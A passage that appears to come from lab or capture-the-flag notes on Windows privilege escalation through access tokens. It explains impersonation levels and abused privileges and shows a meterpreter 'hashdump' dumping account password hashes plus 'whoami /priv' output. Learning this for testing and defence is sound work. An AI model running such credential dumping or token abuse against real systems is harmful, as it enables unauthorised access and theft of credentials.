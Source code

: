- Primary access tokens: those associated with a user account that are generated on log on
- Impersonation tokens: these allow a particular process(or thread in a process) to gain access to resources using the token of another (user/client) process

For an impersonation token, there are different levels:

- SecurityAnonymous: current user/client cannot impersonate another user/client
- SecurityIdentification: current user/client can get the identity and privileges of a client but cannot impersonate the client
- SecurityImpersonation: current user/client can impersonate the client's security context on the local system
- SecurityDelegation: current user/client can impersonate the client's security context on a remote system.


Where the security context is a data structure that contains users' relevant security information.

The privileges of an account(which are either given to the account when created or inherited from a group) allow a user to carry out particular actions. Here are the most commonly abused privileges:

- SeImpersonatePrivilege
- SeAssignPrimaryPrivilege
- SeTcbPrivilege
- SeBackupPrivilege
- SeRestorePrivilege
- SeCreateTokenPrivilege
- SeLoadDriverPrivilege
- SeTakeOwnershipPrivilege
- SeDebugPrivilege

There's more reading [here](https://www.exploit-db.com/papers/42556).


```
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
bruce:1000:aad3b435b51404eeaad3b435b51404ee:3ea0013c7eb26d63606673c34322b4ae:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

```

```
PS C:\Program Files (x86)\Jenkins> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State
=============================== ========================================= ========
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Disabled
SeSecurityPrivilege             Manage auditing and security log          Disabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Disabled
SeLoadDriverPrivilege           Load and unload device drivers            Disabled
SeSystemProfilePrivilege        Profile system performance                Disabled
SeSystemtimePrivilege           Change the system time                    Disabled
SeProfileSingleProcessPrivilege Profile single process                    Disabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Disabled
SeCreatePagefilePrivilege       Create a pagefile                         Disabled
SeBackupPrivilege               Back up files and directories             Disabled
SeRestorePrivilege              Restore files and directories             Disabled
SeShutdownPrivilege             Shut down the system                      Disabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Disabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Disabled
SeUndockPrivilege               Remove computer from docking station      Disabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Disabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
```